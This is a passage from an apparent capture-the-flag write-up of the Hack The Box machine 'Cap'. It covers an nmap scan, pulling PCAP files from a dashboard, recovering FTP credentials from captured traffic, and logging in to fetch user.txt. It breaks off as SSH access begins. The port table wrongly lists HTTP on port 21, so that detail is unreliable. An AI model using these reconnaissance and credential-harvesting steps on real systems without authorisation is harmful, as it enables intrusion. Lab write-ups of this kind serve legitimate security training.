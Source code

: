 ## Default Information
IP address : 10.10.10.245
Operating System : Linux

## Enumeration
Lets start with running a network scan on the IP address using ```NMAP``` to identify the open ports and the services running on the open ports (NOTE: This might take up quite some time)
* sV : service detection
* sC : Run default nmap scripts
* A : identify the OS behind each ports
* -p- : scan all ports
```code 
sudo nmap -sC -sV -A -p- -T4 10.10.10.245 -vv
```
From the output of ```NMAP```, we are able to obtain the following information about the open ports:
| Port Number | Service | Version |
|-----|------------------|----------------------|
| 21	| FTP | vsftpd 3.0.3 |
| 22	| SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0) |
| 21	| HTTP | Gunicorn |

## Discovery
Visiting the webpage at ```10.10.10.245```, the site appears to be a security dashboard
![Screenshot of 10.10.10.245](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_securitydashboard.PNG)
The ```IP config``` and ```Network Status``` does not contain any fascinating information, but the ```security snapshot``` contains a PCAP file that can be downloaded. 
![Screenshot of security snapshot](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_securitysnapshot.PNG)
We will then proceed to save the PCAP file downloaded from ```http://10.10.10.245/data/0``` , ```http://10.10.10.245/data/1```, ```http://10.10.10.245/data/2``` and ```http://10.10.10.245/data/3```\
Viewing the PCAP file from ```http://10.10.10.245/data/0```, we are able to discover that there is a connection to the FTP server, and we are also able to retrieve the username and password to the FTP server
![Screenshot of FTP server](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_FTP.PNG)

## Exploitation
Now, we will login to the FTP server using the discovered username and password. Afterwards, we will download the ```user.txt``` file to our server.
```code                                                                           
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.245                                                     1 ⚙
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 08 10:24 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (298.3941 kB/s)
ftp>
```
We will find the key from the ```user.txt``` file using the ```cat``` command, to obtain our user key.\
Remembering that we have an SSH serve, we will now try to login to the SSH server,

